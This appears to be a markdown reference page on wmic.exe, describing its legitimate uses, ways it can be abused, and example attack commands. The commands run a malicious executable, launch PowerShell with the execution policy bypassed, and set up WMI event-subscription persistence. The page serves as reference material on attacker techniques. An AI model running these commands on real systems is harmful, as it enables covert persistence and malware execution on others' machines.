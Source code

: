 # wmic.exe
## What is it?
*Windows Management Instrumentation Command-line utility used to interact with system settings and services.*

## Legitimate Use
- *Retrieves system information.*
- *Manages processes and services.*

## How to Abuse It
- *Used to execute commands or scripts persistently.*
- *Can launch processes with SYSTEM privileges.*

## Example Attacks
```
wmic process call create "C:\malicious.exe"

wmic process call create "powershell -ExecutionPolicy Bypass -File C:\malicious.ps1"

wmic /namespace:\\root\subscription PATH __EventFilter CREATE Name="EvilFilter" QueryLanguage="WQL" Query="SELECT * FROM __InstanceModificationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_Process'"

wmic /namespace:\\root\subscription PATH CommandLineEventConsumer CREATE Name="EvilConsumer" CommandLineTemplate="C:\malicious.exe"

wmic /namespace:\\root\subscription PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name='EvilFilter'" Consumer="CommandLineEventConsumer.Name='EvilConsumer'"
```
